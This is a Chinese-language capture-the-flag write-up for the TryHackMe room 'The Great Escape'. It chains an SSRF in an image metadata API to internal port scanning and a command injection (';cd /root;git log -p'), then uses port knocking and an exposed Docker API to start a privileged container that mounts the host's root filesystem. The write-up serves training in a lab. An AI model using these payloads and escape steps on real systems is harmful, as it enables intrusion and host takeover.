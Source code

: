 ```yaml
---
sidebar_position: 105
tags: [Easy, Linux, SSRF, 命令注入, Docker 逃逸]
title: "The Great Escape"
description: "The Great Escape"
sidebar_label: "The Great Escape"
slug: /tryhackme/105
---
```


# The Great Escape

## 端口扫描

```bash
root@ip-10-10-232-135:~/thegreatescape# nmap -sTCV -p 22,80 --min-rate 1000 10.10.207.43

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-21 03:57 BST
Nmap scan report for ip-10-10-207-43.eu-west-1.compute.internal (10.10.207.43)
Host is up (0.00020s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh?
| fingerprint-strings: 
|   GenericLines: 
|_    >lM74?'nf<2]"rJ 70[&)v-.
80/tcp open  http    nginx 1.19.6
| http-robots.txt: 3 disallowed entries 
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.60%I=7%D=9/21%Time=650BB140%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,1B,">lM74\?'nf\\<2\]\"rJ\x2070\[&\)v-\.\r\n");
MAC Address: 02:75:B1:60:CD:E3 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 175.76 seconds
```

## 80

在上面的端口扫描中我们发现了 `/api/ /exif-util /*.bak.txt$` 这里也不知道什么原因目录扫描出来的全是错的, 也就没法扫了, 根据之前的结果来判断这应该会涉及 api 的调用, 所以我访问网页端, 并从网页源代码中筛选符合 api 的请求

```bash
# 下面是一些登陆请求
/api/auth/login
/api/auth/logout
/api/auth/user
```

在访问 `/exif-util` 时我发现这是一个文件上传或者文件下载的位置, 我在此进行分析后其功能是获取图片的元数据信息

```bash
/api/exif
```

- 文件上传 : 无法使用
- 文件名的命令注入 : 无法使用, 直接无法解析
- SSRF : 这个应该可以使用

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-131817.png)

结合上面的分析我进行了 SSRF 漏洞的利用, 我们可以利用此来进行内网端口的扫描, 从下面的显示中我们可以分析得到其 80 端口为开放 8080 端口为关闭

```bash
root@ip-10-10-232-135:~/thegreatescape# curl http://10.10.207.43/api/exif/?url=http://127.0.0.1:80
An error occurred: Connection refused (Connection refused)
                Response was:
                ---------------------------------------
                <-- -1 http://127.0.0.1:80
Response : 
Length : 0
Body : (empty)
Headers : (0)
root@ip-10-10-232-135:~/thegreatescape# curl http://10.10.207.43/api/exif/?url=http://127.0.0.1:8080
An error occurred: File format could not be determined
                Retrieved Content
                ----------------------------------------
                <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Nothing to see here</title>
</head>
<body>

<p>Nothing to see here, move along...</p>

</body>
</html>root@ip-10-10-232-135:~/thegreatescape#
```

因为这个题就是一个容器逃逸, 所以我们自然是在容器中的, 此时我们可以利用下面这个请求来帮助我们进行鉴定

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-131817-1.png)

然后到这里基本就死了, 但是之前在我们的 robots.txt 中提到了文件后缀 : /*.bak.txt$ 我们可以借此来进行枚举, 然后因为机器的限制问题我们枚举也是存在问题的, 然后看了 wp 都是莫名奇妙给出一个字典就离谱了, 这里的需要我们访问 exif-util.bak.txt, 在我们访问之后其中会给出我们另一个链接

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-131817-2.png)

这应该是内部的一些服务, 所以我们可以利用我们的 SSRF 漏洞进行访问

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-131817-3.png)

从这个响应推断后端的处理请求应该是

```bash
<?php
 url = $_REQUEST['url'];
 system('curl'.url)
?>
```

我们可以基于此来进行命令注入攻击, 从响应来看我们是这个容器中的 root 用户

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-131817-4.png)

接着后面就是一些获取权限的方式, 就不贴图片我就直接写出来把, 当我访问 root 目录时, 我们可以看到有 .git 的存在所以我们可以基于此来查看 git 的提交历史记录

```bash
http://10.10.207.43/api/exif?url=http://api-dev-backup:8080/exif?url=;cd /root;git log -p
```

在给出的修改当中我们可以看到其中有一句内容, 我们需要为此进行端口敲击之后再次进行扫描

```bash
Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
```

```bash
root@ip-10-10-232-135:~/thegreatescape/knock# ./knock 10.10.207.43 42 1337 10420 6969 63000
root@ip-10-10-232-135:~/thegreatescape/knock# ./knock 10.10.207.43 42 1337 10420 6969 63000
root@ip-10-10-232-135:~/thegreatescape/knock# ./knock 10.10.207.43 42 1337 10420 6969 63000
root@ip-10-10-232-135:~/thegreatescape/knock# cd ../
root@ip-10-10-232-135:~/thegreatescape# nmap -sT -p- --min-rate 1000 10.10.207.43

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-21 04:28 BST
Nmap scan report for ip-10-10-207-43.eu-west-1.compute.internal (10.10.207.43)
Host is up (0.0024s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2375/tcp open  docker
MAC Address: 02:75:B1:60:CD:E3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.54 seconds
```

我们可以看到开放了 2375 端口, 所以我们可以基于此来进行攻击, 根据下面的输出我知道了存在 RCE 攻击, 所以我们利用 docker 进行远程攻击

```bash
root@ip-10-10-232-135:~/thegreatescape# curl http://10.10.207.43:2375/version
{"Platform":{"Name":"Docker Engine - Community"},"Components":[{"Name":"Engine","Version":"20.10.2","Details":{"ApiVersion":"1.41","Arch":"amd64","BuildTime":"2020-12-28T16:15:09.000000000+00:00","Experimental":"false","GitCommit":"8891c58","GoVersion":"go1.13.15","KernelVersion":"4.15.0-130-generic","MinAPIVersion":"1.12","Os":"linux"}},{"Name":"containerd","Version":"1.4.3","Details":{"GitCommit":"269548fa27e0089a8b8278fc4fc781d7f65a939b"}},{"Name":"runc","Version":"1.0.0-rc92","Details":{"GitCommit":"ff819c7e9184c13b7c2607fe6c30ae19403a7aff"}},{"Name":"docker-init","Version":"0.19.0","Details":{"GitCommit":"de40ad0"}}],"Version":"20.10.2","ApiVersion":"1.41","MinAPIVersion":"1.12","GitCommit":"8891c58","GoVersion":"go1.13.15","Os":"linux","Arch":"amd64","KernelVersion":"4.15.0-130-generic","BuildTime":"2020-12-28T16:15:09.000000000+00:00"}

root@ip-10-10-232-135:~/thegreatescape# docker -H tcp://10.10.207.43:2375 images
REPOSITORY                                    TAG                 IMAGE ID            CREATED             SIZE
exif-api-dev                                  latest              4084cb55e1c7        2 years ago         214MB
exif-api                                      latest              923c5821b907        2 years ago         163MB
frontend                                      latest              577f9da1362e        2 years ago         138MB
endlessh                                      latest              7bde5182dc5e        2 years ago         5.67MB
nginx                                         latest              ae2feff98a0c        2 years ago         133MB
debian                                        10-slim             4a9cd57610d6        2 years ago         69.2MB
registry.access.redhat.com/ubi8/ubi-minimal   8.3                 7331d26c1fdf        2 years ago         103MB
alpine                                        3.9                 78a2ce922f86        3 years ago         5.55MB
root@ip-10-10-232-135:~/thegreatescape# docker -H tcp://10.10.207.43:2375  run --rm -it --privileged --net=host -v /:/mnt alpine:3.9
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```